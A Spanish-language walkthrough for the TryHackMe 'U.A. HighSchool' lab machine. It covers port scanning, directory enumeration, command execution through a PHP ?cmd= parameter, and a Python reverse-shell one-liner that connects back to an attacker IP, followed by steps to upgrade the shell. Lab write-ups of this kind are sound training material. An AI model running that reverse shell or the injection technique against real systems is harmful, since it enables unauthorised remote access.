 ```yaml
---
title: HighSchool
description: Write Up de la máquina High School de la plataforma TryHackMe
published: true
date: 2025-05-08T16:42:48.544Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:54:10.908Z
---
```


# U. A. HighSchool
Bienvenido al write up de la maquina HighSchool de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un analisis de los puertos disponibles donde encontramos tanto el puerto 22, como el puerto 80.

```
nmap -sT -Pn -sV 10.10.229.240
```

IMAGEN 1

Así que vamos a entrar en el website, para saber que hay.

Podemos empezar a hacer uso del dirb para comprobar las entradas a los que tenemos acceso.
```
dirb http://{IP}
```

IMAGEN 2

Dentro del analisis hemos encontrado la carpeta assest, aquí vamos a entrar a comprobar que mas cosas interesantes podemos encontrar.


IMAGEN 3

Nos lleva a un website aparantemente vacío, pero sin embargo parece que interpreta codigo php debido a que finaliza en .php, vamos a poner algún comando con ?cmd=

Como por ejemplo ?cmd=id

IMAGEN 4

Parece que nos ha dado una respuesta pero está cifrada, en lo que parece ser Base 64

IMAGEN 5




## Explotación

Vamos a escribir lo siguiente

*export RHOST="10.9.3.144";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'*


Tras esto podemos observar como tenemos una shell, así que vamos a securizarla con:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemos <kbd>Ctrl</kbd> + <kbd>Z </kbd>. y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.
Con esto podemos saber que funciona, por lo que vamos a intentar establecer una shell reversa para conectarnos a nosotros mismos. 